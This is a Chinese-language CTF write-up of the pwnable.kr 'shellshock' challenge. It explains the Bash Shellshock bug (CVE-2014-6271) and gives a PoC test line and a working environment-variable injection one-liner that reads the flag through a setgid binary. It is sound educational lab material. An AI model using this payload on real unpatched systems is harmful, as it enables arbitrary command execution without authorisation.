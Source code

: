 ```yaml
---
title: pwnable.kr-shellshock
date: 2018-01-24 11:48:00
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

## 前言
这题考察著名漏洞的利用，就是当年被评为10级严重的“破壳”漏洞。当时确实不知道，上网搜的。
## 分析
贴出shellshock.c的源码
```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}

```
程序首先使用`setreuid`和`setregid`调用分别设置了三个ID都为`getegid`而这个调用获取的有效组id标识的是组`shellshock_pwn`,这通过执行`ls -l`就可以看到。
```
shellshock@ubuntu:~$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
shellshock@ubuntu:~$ 
```
这个组是有读取flag的权限的，这样程序在后续就有权限执行flag的读取操作。于是在利用bash的“破壳”漏洞即可getflag
## 知识点
Bash 4.3以及之前的版本在处理某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，攻击者可利用此漏洞改变或绕过环境限制，以执行任意的shell命令,甚至完全控制目标系统

受到该漏洞影响的bash使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义的。而在处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的shell命令。这个漏洞导致了CVE-2014-6271，CVE-2014-7169，CVE-2014-6277，CVE-2014-6278，CVE-2014-7186，CVE-2014-7187六个CVE的爆发。

对于该漏洞的详细描述网上到处都有，就不再多说。可以使用下面的poc验证是否存在漏洞：
```
env x='() { :;}; echo Shellshock' bash -c "exit"
```
存在的话会输出`shellshock`这段话。
## 利用
知道了漏洞，那么利用就很简单了。根据题目使用下面的exp
```
env f='() { :;};bash -c "cat flag"' ./shellshock
```
```
shellshock@ubuntu:~$ env f='() { :;};bash -c "cat flag"' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```
需要注意的是，直接执行`cat flag`会提示找不到文件或目录，要用bash命令来执行才可以。（原因我也不知道。。。）

## 总结
又学到了一个知名漏洞的利用，同时也发现自己知道的真的太少了，要好好学习才行。